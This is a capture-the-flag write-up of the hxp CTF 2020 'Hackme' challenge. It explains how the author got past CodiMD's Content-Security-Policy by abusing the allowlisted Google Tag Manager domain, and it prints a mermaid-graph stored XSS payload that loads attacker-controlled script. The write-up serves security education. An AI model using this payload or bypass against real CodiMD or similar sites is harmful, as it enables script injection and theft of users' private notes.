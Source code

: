 Hackme: Web hard - hxpctf 2020
===
This year I played hxp ctf w/ [mHACKeroni](https://mhackeroni.it)
## The challenge
The challenge is a [CodiMD](https://github.com/hackmdio/codimd) docker with report uri.
In the challenge, a note called "the-flag" exists and it contents, obv, the fl4g. This challenge is very very intresting, I loved it but the Dockerfile is really B1GG, with my orrible network it took ~15 minutes for build ahahah. 
(Solves: 15/1177)
## The bug
This challenge, obviously, has an XSS vuln mlmlmlml!\
Oh sh1t there is a CSP. I took a couple of minutes to analyze it
```
Content-Security-Policy: default-src 'self';script-src 'self' vimeo.com https://gist.github.com www.slideshare.net https://query.yahooapis.com 'unsafe-eval' https://disqus.com https://*.disqus.com https://*.disquscdn.com https://www.google-analytics.com 'nonce-90dfe8a7-eaa5-41a5-a9f2-7d36a6db7ce3' 'sha256-81acLZNZISnyGYZrSuoYhpzwDTTxi7vC1YM4uNxqWaM=';img-src * data:;style-src 'self' 'unsafe-inline' https://github.githubassets.com https://*.disquscdn.com;font-src 'self' data: https://public.slidesharecdn.com https://*.disquscdn.com;object-src *;media-src *;child-src *;connect-src *
```  
Eureka: `https://www.google-analytics.com` is enable.\
But first I need a method to include some script from google analytics :(\
With some osint I find a stored xss bug in [mermeid graph]( https://github.com/mermaid-js/mermaid/issues/869). 
## IT'S TIME TO EXPLOIT
With google analytics there is a service called "Google Tag Manager". With it I can create cusotm tag and custom javascript code.

First of all I write an XSS payload and create a variable in Google Tag Manager with this paylod.

![CustomJavascript](images/custom_javascript.png)

Secondly I create a custom Google Universal Analytics Tag ang Google Analytics Settigs that took the custom variable and do something at the page load event

![Gas](images/gas.png)

![Gaua](images/gaua.png)

Finally I write a new note that trigger the xss bug:
```
```mermaid
graph TD
B --> C{<script src=https://www.google-analytics.com/gtm/js?id=GTM-MLQBR25 ></script>}
```

And I report my note.

The flag: 
`
hxp{Yo dawg, I heard you like XSS, so I put some DOM injection in your script injection so you can inject scripts while you inject HTML while you inject scripts! Any questions?}
`.

Thanks a lot to orgs for the idea and for the other challenges.
